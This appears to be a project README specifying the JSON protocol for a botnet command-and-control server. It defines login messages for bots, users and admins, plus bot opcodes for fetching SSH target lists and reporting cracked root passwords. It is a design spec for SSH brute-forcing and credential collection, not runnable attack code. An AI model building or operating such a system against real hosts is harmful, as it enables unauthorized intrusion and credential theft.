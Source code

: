 # Login payload structure

## Login as a bot
```python
{
    "op": "LOGIN",
    "data": {
        "type": "BOT",
        "hostname": "bot1"
    }
}
```

## Login as a user
```python
{
    "op": "LOGIN",
    "data": {
        "type": "USER",
        "username": "noob123",
        "password": "password123"
    }
}
```

## Login as an admin
```python
{
    "op": "LOGIN",
    "data": {
        "type": "ADMIN",
        "username": "admin123",
        "password": "password123"
    }
}
```



# Commands And Control

## Bot Commands OP Codes

This are the commands the bot can execute on the server.

### GET_TARGETS

This is used when a bot has newly connected to the server.
When the server responds, the bot will initialize the attacks on the targets based on the hostnames, if there is.

```python
{
    "op": "GET_TARGETS",
    "data": None
}
```

#### Response:

```python
{
    "op": "TARGET_LIST",
    "data": {
        "hostnames": ["192.168.254.101", "192.168.254.102", "192.168.254.103"],
        "usernames": ["root", "user"],
        "password": ["password1", "password2", "password3"]
    }
}
```

### PASSWORD_FOUND

The bot sends this command to the server when it cracks an SSH server's password.

```python
{
    "op": "PASSWORD_FOUND",
    "data": {
        "hostname": "192.168.254.101",
        "username": "root",
        "password": "password1"
    }
}
```

### RESPONSE:
```python
None
```
